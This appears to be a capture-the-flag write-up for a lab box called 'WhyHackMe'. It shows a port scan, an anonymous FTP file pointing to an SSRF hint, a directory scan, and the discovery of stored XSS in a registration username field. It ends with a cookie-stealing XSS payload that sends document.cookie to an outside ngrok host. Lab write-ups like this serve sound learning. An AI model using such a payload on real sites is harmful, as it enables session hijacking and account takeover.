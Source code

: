 # WhyHackMe

## Port scan

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.9.227.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)

<<SNIPPED>>

80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome!!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```



## Ftp files

* Since anonymous login was enabled we can go ahead  and grab the file

```bash
└─➜ ftp 10.10.59.115                                                                                                                                                                     [0]
Connected to 10.10.59.115.
220 (vsFTPd 3.0.3)
Name (10.10.59.115:heap): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        119          4096 Mar 14  2023 .
drwxr-xr-x    2 0        119          4096 Mar 14  2023 ..
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
g226 Directory send OK.
ftp> get update.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for update.txt (318 bytes).
226 Transfer complete.
318 bytes received in 7.1e-05 seconds (4.27 Mbytes/s)
ftp> quit
221 Goodbye.

```



### File (update.txt)

```bash
└─➜ cat update.txt    ]
Hey I just removed the old user mike because that account was 
compromised and for any of you who wants the creds of new account 
visit 127.0.0.1/dir/pass.txt and don't worry this file is 
only accessible by localhost(127.0.0.1), 
so nobody else can view it except me or people with access to the common account.
- admin
```

After reading that we can clearly see a hint of SSRF.&#x20;



## Web page

After you read the blog, you can see it wants you to login first to comment down on the blog.

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

## Dir scan

```bash
[Status: 200, Size: 643, Words: 36, Lines: 23, Duration: 147ms]
    * FUZZ: register.php
```

Found a register portal.



## Web exploitation

After registering myself with `test:test` i tried exploiting XSS, CMD injection, SQLi but none worked, maybe username parameter is vulnerable.

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

After login, i can now comment on blog

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Yessss, the username parameter was actually vulnerable to XSS.

* Registering new user with XSS payload that will give us admin cookie.

Payload i Used:

```javascript
<script>var i=new Image(); i.src="https://7140-122-177-17-117.ngrok-free.app/?cookiez="+btoa(document.cookie);</script>
```
